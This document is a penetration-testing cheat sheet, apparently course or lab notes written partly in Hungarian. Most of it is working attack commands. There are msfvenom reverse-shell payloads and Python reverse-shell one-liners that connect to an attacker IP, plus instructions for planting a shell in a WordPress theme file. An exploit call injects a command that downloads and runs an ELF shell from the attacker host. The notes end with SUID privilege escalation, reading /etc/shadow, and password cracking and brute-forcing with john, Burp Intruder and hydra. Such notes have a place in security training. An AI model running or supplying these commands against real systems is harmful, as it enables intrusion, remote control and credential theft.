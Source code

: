 
1. [Port scan](##Port-scan)

## Advanced_ping
``` sh
sudo nmap -sn <IP>
```
## Port-scan
``` sh
sudo nmap -sS -sV <IP>
```

## Dirbuster wordlist
``` sh
/usr/share/wordlists/dirb/common.txt
```

## Password list 
``` sh
/usr/share/wordlists/rockyou.txt
```

## Listener
``` sh
nc -lvnp 4444
```
``` sh
nc -lvnp 5555
```

## PHP reverse shell generator
``` sh
msfvenom -p php/reverse_php LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
Ezt fel kell tölteni csinálni egy listeneret és lefuttatni a Target gépen, ezáltal kapunk egy PHP reverse shellt

## SHELL Chaining PHP esetén (nem PHP-nál is működik)
``` python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("30.0.1.17",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Shell upgrade
``` python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

# wpscan
wpscan --help
* --url URL    --> url megadása
* -o FILE      --> fájlba mentés
* -f FORMAT    --> mentés formátuma
* --detection-mode MODE --> passive, aggressive, mixed
* --user-agent AGENT --> agent megadása
* --random-user-agent
* --http-auth login:password --> Basic auth login
* -e --> mire vagyunk kíváncsiak
  * -e vp --> sérülékeny plugin
  * -e u --> minden user meghatározása
* -P --> jelszavak brute-forceolása
* --login-uri URI  --> ha az oldal nem az eredti IP-n található hanem máshol pl.: http://40.0.4.16/secret
* --stealthy --> elrejtőzés

## Web server megtalálása
Appearance --> Theme editor
Érdemes a comments.php-t buherálni
1. Shell kód generálása (msfvenom)
2. comments.php-be beírni
3. Listener attack gépen (nc)
4. Egy komment megnyitása

Vagy ami könnyebb v

## WordPress feltörés shell generálás
msfconsole
```
search wp admin shell
```
Ha megvan a szám akkor
```
use {szám}
```
vagy
```
use exploit/unix/webapp/wp_admin_shell_upload
```

## Meterpreter php script
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=30.0.1.17 LPORT=4444 -f raw > rshell.php
```
msfconsoleban
```
use exploit/multi/handler
```
Ez csak handler!!!

## betörés exploti python
3 külön terminal majd egyiken egy Listener majd egy másikban egy reverse shell(1) és egy python webserver ott ahol a exploit db s script van(python)(2) ezután feltöltjük(3). (1 2 3 egy mappában történjen)
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=30.0.1.17 -f elf > shell.elf
```
```
python3 -m http.server
```
```
python3 50457.py  40.0.5.16 80 /phpmyadmin pma pmapass "cd /tmp; rm -rf /tmp/shell.elf; wget http://30.0.1.17:8000/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf"
```

# Linux PE (Privilige Excalaltion)
1. SUID bitek("meghatalmazás"): Ha egy futtatható fájlra ezt engedélyezzük, akkor a fájl nem az én jogaimmal indul majd el
   ### SUID bitek megkeresése
   ```
   find / -perm -u=s 2>/dev/null
   ```
   ### Használható fájlok
   - /usr/sbin/pppd
   - /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   - /usr/lib/openssh/ssh-keysign
   - /usr/lib/xorg/Xorg.wrap
   - /usr/libexec/polkit-agent-helper-1
   - /usr/bin/sudo
   - /usr/bin/su
   - /usr/bin/fusermount3
   - /usr/bin/pkexec
   - /usr/bin/gpasswd
   - /usr/bin/chfn
   - /usr/bin/mount
   - /usr/bin/chsh
   - /usr/bin/umount
   - /usr/bin/newgrp
   - /usr/bin/ntfs-3g
   - /usr/bin/passwd

    Ha van gdb
    ```
    gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```
2. Sudo jogok: sudo -l
   - /etc/passwd  --> cat vagy ls -l  vagy /etc/shadow(jelszavak vannak itt)
     - Ha a jognál + jel van akkor
     ```
     getfacl /etc/passwd
     ```
     - catelés után jelszavak keresése $ on ként vannak részek első típus második is majd utána só és az utolsó a jelszó, ha megvan egy fájlba elmentjük majd `john`
       y: cript típus
     - jelszó feltörése: john (the ripper) vagy hashcat
       ```
       john <jelszofajl> --wordlist=/usr/share/wordlists/rockyou.txt (--format=crypt --> ha y típus)

       ```
 3. Python library hyjacking
 4. 

 ## Jelszó generálás
 ```
openssl passwd -5 alma
```
## Burpsuite
Firefox addon FoxyProxy
Proxy tab --> Intercept ON
Request küldése majd jobb klikk
Send to Repeater (jelszavak próbálgatása, manualisan)
Send to Intruder 
 Hozzáadjuk az add al, majd payload tab, megadjuk a jelszavakat és start attack, ezután nézzük a hosszakat

 ## Basic Authos
 hydra
